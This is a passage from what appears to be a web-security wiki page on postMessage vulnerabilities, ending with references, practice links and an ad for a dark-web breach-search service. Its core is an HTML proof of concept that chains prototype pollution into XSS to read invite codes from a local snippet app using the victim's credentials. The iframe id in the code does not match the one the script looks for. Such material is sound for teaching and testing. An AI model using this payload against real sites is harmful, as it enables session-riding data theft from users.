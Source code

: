 ```html
<html>
<body>
    <iframe id="idframe" src="http://127.0.0.1:21501/snippets/demo-3/embed"></iframe>
    <script>
        function get_code() {
            document.getElementById('iframe_victim').contentWindow.postMessage('{"__proto__":{"editedbymod":{"username":"<img src=x onerror=\\\"fetch(\'http://127.0.0.1:21501/api/invitecodes\', {credentials: \'same-origin\'}).then(response => response.json()).then(data => {alert(data[\'result\'][0][\'code\']);})\\\" />"}}}','*');
            document.getElementById('iframe_victim').contentWindow.postMessage(JSON.stringify("refresh"), '*');
        }

        setTimeout(get_code, 2000);
    </script>
</body>
</html>
```

For **more information**:

* Link to page about [**prototype pollution**](../deserialization/nodejs-proto-prototype-pollution/)
* Link to page about [**XSS**](../xss-cross-site-scripting/)
* Link to page about [**client side prototype pollution to XSS**](../deserialization/nodejs-proto-prototype-pollution/#client-side-prototype-pollution-to-xss)

## References

* [https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html)
* [https://dev.to/karanbamal/how-to-spot-and-exploit-postmessage-vulnerablities-36cd](https://dev.to/karanbamal/how-to-spot-and-exploit-postmessage-vulnerablities-36cd)
* To practice: [https://github.com/yavolo/eventlistener-xss-recon](https://github.com/yavolo/eventlistener-xss-recon)

### [WhiteIntel](https://whiteintel.io)

<figure><img src="../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) is a **dark-web** fueled search engine that offers **free** functionalities to check if a company or its customers have been **compromised** by **stealer malwares**.
